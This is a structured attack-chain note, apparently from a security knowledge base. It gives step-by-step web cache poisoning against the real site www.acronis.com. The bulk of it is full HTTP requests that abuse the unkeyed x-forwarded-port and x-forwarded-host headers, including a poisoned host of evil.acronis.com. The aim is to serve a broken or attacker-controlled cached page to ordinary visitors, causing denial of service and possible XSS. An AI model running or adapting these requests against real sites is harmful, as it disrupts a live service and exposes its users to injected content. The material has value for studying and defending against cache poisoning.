

---
tags:
  - web-cache-poisoning
  - dos
  - xss
  - header-manipulation
type: attack_chain
tools:
  - '[[tools/Burp-Suite]]'
tactics:
  - '[[Initial Access]]'
  - '[[Impact]]'
commands:
  - '[[commands/poison-request-x-forwarded-port]]'
  - '[[commands/clean-request-confirm-poisoning]]'
  - '[[commands/alternative-poison-request-x-forwarded-host]]'
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Poison-Cache-with-X-Forwarded-Port]]'
  - '[[procedures/Confirm-Cache-Poisoning]]'
  - '[[procedures/Distribute-Poisoned-Response]]'
  - '[[procedures/Alternative-Poisoning-with-X-Forwarded-Host]]'
step_count: 4
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Endpoint Denial of Service]]'
description: >-
  Multi-stage attack chain exploiting web cache poisoning on www.acronis.com
  using unkeyed headers to cause denial of service and potential XSS
  distribution.
skill_level: intermediate
impact_level: high
id: 7487e356-19b1-44c3-aaf4-53e554a5381f
created_at: '2025-12-13T09:00:34.234Z'
updated_at: '2025-12-13T09:00:34.234Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Impact]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Endpoint Denial of Service]]'
---
# Web Cache Poisoning via X-Forwarded Headers on Acronis Website

Multi-stage attack chain demonstrating how to exploit web cache poisoning on www.acronis.com by manipulating unkeyed inputs like URL parameters and headers such as x-forwarded-port and x-forwarded-host. This leads to denial of service by breaking page functionality and potentially distributing attacks like XSS to other users.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]

### Target Environment

- Web platform
- Open ports: 443, potentially 0 for poisoning
- Services: Web server at www.acronis.com

### Initial Access Requirements

- Network access to www.acronis.com
- No credentials required
- Ability to send HTTP requests

## Detailed Attack Procedures

### Step 1: Poison Cache with X-Forwarded-Port
procedure: [[procedures/Poison-Cache-with-X-Forwarded-Port]]

**Objective**: Manipulate the cache by sending repeated requests with modified x-forwarded-port header to force a poisoned response.

**Instructions**: Use [[commands/poison-request-x-forwarded-port]] to send the poisoning request:

```bash
GET /zh-cn/careers/?yig1bt7ai4=1 HTTP/1.1
Host: www.acronis.com
Connection: close
sec-ch-ua: "Chromium";v="86", "\"Not\\A;Brand";v="99", "Google Chrome";v="86"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.80 Safari/537.36 yig1bt7ai4
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9, text/yig1bt7ai4
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://www.acronis.com/zh-cn/cloud/cyber-protect/
Accept-Encoding: gzip, deflate, yig1bt7ai4
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
x-forwarded-port: zwrtxqvas9lm4kzkia
Origin: https://yig1bt7ai4.com
```

Repeat the request until 'www.acronis.com:0' appears in the response.

**Expected Output**: Poisoned response cached with altered port.

**Success Indicators**:
- Response includes 'www.acronis.com:0'
- Cache is manipulated

### Step 2: Confirm Cache Poisoning
procedure: [[procedures/Confirm-Cache-Poisoning]]

**Objective**: Send a clean request to verify that the cache has been polluted.

**Instructions**: Use [[commands/clean-request-confirm-poisoning]] to send the confirmation request:

```bash
GET /zh-cn/careers/ HTTP/1.1
Host: www.acronis.com
Connection: close
sec-ch-ua: "Chromium";v="86", "\"Not\\A;Brand";v="99", "Google Chrome";v="86"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.80 Safari/537.36 yig1bt7ai4
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9, text/yig1bt7ai4
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://www.acronis.com/zh-cn/cloud/cyber-protect/
Accept-Encoding: gzip, deflate, yig1bt7ai4
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
```

Repeat if necessary to hit the poisoned cache.

**Expected Output**: Poisoned response from cache.

**Success Indicators**:
- Clean request returns poisoned content
- Functionality broken (e.g., resources fail to load)

### Step 3: Distribute Poisoned Response
procedure: [[procedures/Distribute-Poisoned-Response]]

**Objective**: Allow normal users to access the poisoned page, causing widespread impact.

**Instructions**: No specific command needed; normal users visiting /zh-cn/careers/ will receive the cached poisoned response.

**Expected Output**: Users experience broken page functionality or injected attacks.

**Success Indicators**:
- Multiple users affected
- Denial of service observed

### Step 4: Alternative Poisoning with X-Forwarded-Host
procedure: [[procedures/Alternative-Poisoning-with-X-Forwarded-Host]]

**Objective**: Use an alternative method with x-forwarded-host and x-forwarded-port for poisoning.

**Instructions**: Use [[commands/alternative-poison-request-x-forwarded-host]] to send the alternative poisoning request:

```bash
GET /zh-cn/careers/?yig1bt7ai4=2 HTTP/1.1
Host: www.acronis.com
Connection: close
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: "Chromium";v="86", "\"Not\\A;Brand";v="99", "Google Chrome";v="86"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.80 Safari/537.36
Accept: text/html,application/xhtml xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
x-forwarded-port: zwrtxqvas9lm4kzkia
x-forwarded-host: evil.acronis.com
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

**Expected Output**: Cache poisoned with malicious host, causing resources to load from evil.acronis.com:0.

**Success Indicators**:
- Page loads resources from malicious host
- DoS or potential XSS achieved

## Attack Chain Summary

### Key Achievements

1. Successful cache poisoning leading to DoS
2. Potential for XSS or JS injection distribution
3. Impact on multiple users without direct interaction

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Endpoint Denial of Service]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Impact]]

*Last updated: 2023-10-01*
